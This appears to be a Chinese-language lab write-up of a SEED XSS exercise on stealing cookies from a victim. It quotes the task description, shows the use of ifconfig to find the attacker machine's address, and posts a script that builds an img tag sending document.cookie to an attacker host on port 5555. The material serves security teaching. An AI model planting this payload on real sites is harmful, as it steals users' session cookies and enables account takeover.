 
## Task3 从受害者的机器里偷Cookie

> 在上次任务中，恶意的JavaScript代码可以打印出用户的Cookie；在此任务中，攻击者希望JavaScript代码将Cookie发送给自己。
>
> 为了实现这一点，恶意的JavaScript代码可以向攻击者发送一个HTTP请求，并将Cookie附加到请求中。我们可以通过让恶意的JavaScript插入一个`<img>`标签，并将src设置为攻击者目的地的URL来做到这一点。当JavaScript插入img标签时，浏览器会试图从所提到的URL加载图像，并在此过程中最终向攻击者的网站发送一个HTTPGET请求。
>
> 下面给出的JavaScript将Cookie发送到攻击者计算机上提到的端口5555。在特定端口上，攻击者有一个TCP服务器，它简单地打印出接收到的请求。TCP服务器程序将被提供给您（可在本实验室的网站上获得）。

这里我们选择另一台主机，当然使用同一台主机也是可以的，理论上只要能相互联网便可，使用ping命名可以测试相互之间是否能通信。但实际上这是一门玄学，推荐使用seedubuntu12负责监听。

### 获取地址

```bash
ifconfig
```

![image-20220316091611473](XSSAttack/image-20220316091611473.png)

攻击机seed12的id地址

![image-20220316102021559](XSSAttack/image-20220316102021559.png)

### 新建post

我们新建一个Topic，输入对应命令，并提交

```html
Hello Folks,
<script>document.write('<img src=http://attacker_IP_address:5555?c='
+ escape(document.cookie) + ' >'); </script>
This script is to test XSS. Thanks.
```

![image-20220316102209051](XSSAttack/image-20220316102209051.png)
